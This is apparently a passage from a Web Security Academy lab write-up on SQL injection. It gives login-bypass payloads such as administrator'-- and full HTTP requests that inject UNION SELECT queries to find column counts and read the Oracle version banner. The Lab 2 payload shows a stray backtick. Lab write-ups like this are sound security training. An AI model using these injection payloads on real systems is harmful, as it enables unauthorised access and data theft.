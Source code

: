 if we use name administrator and '' comment sequece
- submit username as `administrator'--`
- `blank` password
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

## 🟩 Lab 2: SQL injection vulnerability allowing login bypass
Intercept and modify login request
Modify `username` parameter to 
```
username=administrator`--
```

## 🟦 Lab 3: SQL injection attack, querying the database type and version on Oracle
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
1. Determine number of columns being returned by query and which columns contain text data
	- verify that it returns 2 columns and both text
```http
GET /filter?category=Tech+gifts'+UNION+SELECT+'abc','def'+FROM+dual-- HTTP/2
Host: 0a89005d03a5eadf80a799760091008f.web-security-academy.net
Cookie: session=QfEvMnEFfvtFjTAF25B8CdMxZuxh0y6j
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a89005d03a5eadf80a799760091008f.web-security-academy.net/filter?category=Lifestyle
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


```
2. Enumerate version
```http
GET /filter?category=Tech+gifts'+UNION+SELECT+BANNER,+NULL+FROM+v$version-- HTTP/2
Host: 0a89005d03a5eadf80a799760091008f.web-security-academy.net
Cookie: session=QfEvMnEFfvtFjTAF25B8CdMxZuxh0y6j
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a89005d03a5eadf80a799760091008f.web-security-academy.net/filter?category=Lifestyle
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


```
